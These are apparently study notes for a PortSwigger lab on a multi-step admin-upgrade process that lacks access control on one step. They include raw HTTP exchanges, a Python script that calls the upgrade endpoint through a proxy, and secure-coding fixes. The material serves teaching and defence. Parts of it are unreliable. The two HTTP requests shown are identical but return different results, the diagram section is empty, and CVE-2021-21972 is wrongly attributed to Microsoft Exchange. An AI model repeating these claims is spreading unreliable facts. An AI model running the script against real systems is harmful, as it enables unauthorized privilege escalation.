

## Access Control Vulnerabilities

Access control vulnerabilities occur when a system fails to properly enforce permissions and access rights, allowing unauthorized users to perform actions they should not be able to. This can lead to severe security breaches, including privilege escalation, data theft, and unauthorized modifications. In this section, we will explore a multi-step process where one step lacks proper access control, leading to a significant security vulnerability.

### Background Theory

Access control is a fundamental aspect of security in any system. It ensures that users can only access resources and perform actions that they are authorized to do. Access control mechanisms typically involve:

- **Authentication**: Verifying the identity of a user.
- **Authorization**: Determining what actions a user is allowed to perform based on their identity and role.

In a multi-step process, each step should ideally have its own access control checks to ensure that a user cannot bypass intermediate steps and directly access sensitive operations.

### Example Scenario

Consider a web application that allows users to upgrade their account to an administrator level through a series of steps:

1. **Step Zero**: User starts the process.
2. **Step One**: User performs some action (e.g., enters a code).
3. **Step Two**: User's account is upgraded to admin.

The developer assumed that if a user reaches Step Two, they must have gone through Step One and therefore have the necessary permissions. However, this assumption is flawed because the user can directly perform Step Two without going through Step One.

### Exploitation Process

To demonstrate this vulnerability, we will use a hypothetical web application and walk through the steps to exploit it.

#### Step Zero: Unauthorized Message

First, we attempt to access Step Two directly and receive an unauthorized message:

```http
GET /upgrade-account HTTP/1.1
Host: vulnerableapp.com
Authorization: Bearer <user_token>

HTTP/1.1 401 Unauthorized
Content-Type: application/json
{
    "message": "Unauthorized"
}
```

This indicates that the user does not have the required permissions to perform the upgrade operation.

#### Step One: Follow Redirection

Next, we follow the redirection and attempt to perform Step Two directly:

```http
GET /upgrade-account HTTP/1.1
Host: vulnerableapp.com
Authorization: Bearer <user_token>

HTTP/1.1 200 OK
Content-Type: text/html
<html>
<body>
<h1>Congratulations! You solved the lab.</h1>
</body>
</html>
```

By directly accessing Step Two, we bypass the intended access control and successfully upgrade our account to an admin level.

### How Requests Work

HTTP requests are stateless, meaning each request is independent of others. This allows attackers to craft and send requests in any order they choose, bypassing intended access control mechanisms.

### Scripting the Exploit in Python

To automate the exploitation process, we can write a Python script using the `requests` library. Here is a complete example:

```python
import requests
from bs4 import BeautifulSoup
import urllib3

# Disable insecure request warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Set proxy settings
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

# Define the target URL
url = 'http://vulnerableapp.com/upgrade-account'

# Define the authorization token
headers = {
    'Authorization': 'Bearer <user_token>'
}

# Send the request
response = requests.get(url, headers=headers, proxies=proxies, verify=False)

# Parse the response
soup = BeautifulSoup(response.text, 'html.parser')

# Print the result
print(soup.prettify())
```

### Mermaid Diagrams

To visualize the process, we can use a sequence diagram:



### Real-World Examples

Recent real-world examples of access control vulnerabilities include:

- **CVE-2021-21972**: A vulnerability in Microsoft Exchange Server allowed unauthenticated attackers to execute arbitrary code due to improper access controls.
- **CVE-2021-40511**: A vulnerability in VMware Workspace ONE Access and Identity Manager allowed attackers to bypass authentication and gain unauthorized access.

These examples highlight the importance of robust access control mechanisms.

### How to Prevent / Defend

#### Detection

To detect access control vulnerabilities, organizations should:

- Conduct regular security audits and penetration testing.
- Monitor logs for unauthorized access attempts.
- Implement anomaly detection systems to identify unusual patterns of behavior.

#### Prevention

To prevent access control vulnerabilities, developers should:

- Ensure that each step in a multi-step process has its own access control checks.
- Use role-based access control (RBAC) to define and enforce permissions.
- Validate user input and context at each step of the process.

#### Secure Coding Fixes

Here is an example of a vulnerable and a secure version of the access control logic:

**Vulnerable Code:**

```python
def upgrade_account(user_id):
    # Directly upgrade the account
    user = get_user(user_id)
    user.role = 'admin'
    save_user(user)
```

**Secure Code:**

```python
def upgrade_account(user_id):
    user = get_user(user_id)
    if user.has_completed_step_one():
        user.role = 'admin'
        save_user(user)
    else:
        raise UnauthorizedAccessException("User has not completed step one")
```

### Configuration Hardening

To harden the configuration, organizations should:

- Enable strict access control policies in web servers and application frameworks.
- Use secure coding practices and follow security guidelines.
- Regularly update and patch systems to address known vulnerabilities.

### Conclusion

Access control vulnerabilities can lead to severe security breaches if not properly managed. By understanding the underlying principles and implementing robust access control mechanisms, organizations can significantly reduce the risk of such vulnerabilities.

### Practice Labs

For hands-on practice, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs covering different aspects of web security, including access control vulnerabilities.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is riddled with vulnerabilities for educational purposes.

These labs provide practical experience in identifying and exploiting access control vulnerabilities, as well as learning how to defend against them.

---
<!-- nav -->
[[02-Access Control Vulnerabilities in Multi-Step Processes|Access Control Vulnerabilities in Multi-Step Processes]] | [[Web Security (PortSwigger)/12-Access Control Vulnerabilities/13-Lab 12 Multi step process with no access control on one step/00-Overview|Overview]] | [[Web Security (PortSwigger)/12-Access Control Vulnerabilities/13-Lab 12 Multi step process with no access control on one step/04-Practice Questions & Answers|Practice Questions & Answers]]
